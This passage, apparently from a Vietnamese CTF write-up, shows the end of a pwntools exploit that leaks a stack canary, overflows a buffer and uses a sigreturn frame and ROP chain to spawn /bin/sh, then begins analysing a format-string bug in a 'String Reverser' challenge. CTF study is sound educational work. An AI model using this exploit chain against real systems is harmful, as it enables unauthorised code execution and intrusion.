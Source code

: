 ```python
canary = p.recv(8) + canary
canary = b'0x' + canary
print("canary :",canary)

frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = 0x4d26e0
frame.rdx = 0x100
frame.rip = syscall
frame.rsp = 0x4d26e0+8

canary = int(canary,16)
payload = b'a'*56
payload += p64(canary)
payload += p64(0)
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall)
payload += bytes(frame)
p.sendline(payload)
input()
p.sendline(b'/bin/sh\x00'+ p64(pop_rdi) + p64(0x4d26e0) + p64(pop_rsi) + p64(0) + p64(pop_rax) + p64(0x3b) + p64(pop_rbx) + p64(0) + p64(mov_rdx_rbx))




p.interactive()
```



## String Reverser


- bài này có 1 số vấn đề : libc của bài thấp hơn libc mình dùng và trong bài cũng không leak được (mình không nhớ rõ nhưng mình mở ticket thì author nói không liên quan đến libc) -> offset trên stack không giống nhau và mình chỉ khai thác được ở local 


- reverse: 
1 bug fsb  rõ ràng xuất hiện trước mặt , tuy nhiên trước khi thực hiện ```printf``` thì nó sẽ gọi hàm ```reverse``` trước

![image](https://hackmd.io/_uploads/SkhtiRjSJl.png)


- reverse : 

nó sẽ loop bằng cách lấy độ dài của chuỗi ta nhập/2 , nói chung là sẽ đảo ngược chuỗi của ta nhập vào 
![image](https://hackmd.io/_uploads/BkgJnAsByl.png)
